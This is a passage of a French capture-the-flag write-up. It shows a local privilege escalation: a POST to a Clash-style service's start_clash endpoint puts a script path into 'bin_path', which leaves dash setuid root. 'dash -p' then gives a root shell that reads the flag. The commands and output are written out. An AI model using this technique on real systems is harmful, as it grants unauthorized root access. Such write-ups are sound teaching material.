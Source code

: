 Ça n'a pas fonctionné... Heureusement, on peut lire le fichier de log où on voit la commande que le service a tenté d'exécuter.

On voit qu'il a rajouté des paramètres `-d` et `-f` que `bash` n'a pas dû apprécier. On va directement passer notre script dans `bin_path` :

```console
wall@greatwall:~$ curl -X POST \
  http://127.0.0.1:33211/start_clash \
  -H 'Content-Type: application/json' \
  -d '{
    "core_type":"verge-mihome",
    "bin_path":"/tmp/script.sh",
    "config_dir":"",
    "config_file":"yolo",
    "log_file":"/tmp/yolo.log"
  }'
wall@greatwall:~$ ls -al /usr/bin/dash 
-rwsr-xr-x 1 root root 125640 Jan  5  2023 /usr/bin/dash
wall@greatwall:~$ dash -p
# cd /root
# ls
r007.7x7oZzZzZzzzz
# cat r007.7x7oZzZzZzzzz
                       ,'.                    ,',                   
                      ,''',.                .,'',                   
                      ,''''''              .'''''.                  
                     .''''''''............''''''';                  
                     ;''''''''''''''''''''''''''''                  
                     ''''''''''''''''''''''''''''',                 
                    ....'''''''''''''''''''''''...,                 
                    ,.....;xkl'...........'dkd,.....                
                    ,.....OMMM;...........cMMMd.....                
                   .......'cl,.............;l:.....;                
                   '.............':cc:,.............                
                   ,.................................               
                   .................................,               
                  ...................................               
                  ....................................              
         ....     ,..................................'              
        ...       ...................................,              
        ,..      .....................................              
        ...'     ......................................             
          ....   '.....................................             
             .........................................'             

flag{b3d2a9f34869484b74db97411cf1eb3b}
```
